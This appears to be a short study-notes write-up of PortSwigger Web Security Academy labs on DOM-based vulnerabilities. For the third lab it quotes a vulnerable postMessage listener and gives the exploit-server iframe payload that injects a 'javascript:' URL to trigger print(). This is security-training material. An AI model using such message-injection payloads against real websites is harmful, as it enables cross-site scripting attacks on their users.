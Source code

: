 # DOM-based vulnerabilities

Get details at [here](https://portswigger.net/web-security/dom-based)

---

[Lab 1]()

[Lab 2](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url)

Description of this lab: demonstrates a DOM-based redirection vulnerability that is triggered by web messaging


[Lab 3](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse)

Description of this lab: construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function

Check the code, and we have this script for listening to event

```js
    <script>
                        window.addEventListener('message', function(e) {
                            var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
                            document.body.appendChild(iframe);
                            try {
                                d = JSON.parse(e.data);
                            } catch(e) {
                                return;
                            }
                            switch(d.type) {
                                case "page-load":
                                    ACMEplayer.element.scrollIntoView();
                                    break;
                                case "load-channel":
                                    ACMEplayer.element.src = d.url;
                                    break;
                                case "player-height-changed":
                                    ACMEplayer.element.style.width = d.width + "px";
                                    ACMEplayer.element.style.height = d.height + "px";
                                    break;
                            }
                        }, false);
                    </script>
```

Using this script for body exploit server, click to store and deliver to victim button, then solved the lab.

```html
    <iframe src=https://0a0a00c40438df56c0ea1539003800f9.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```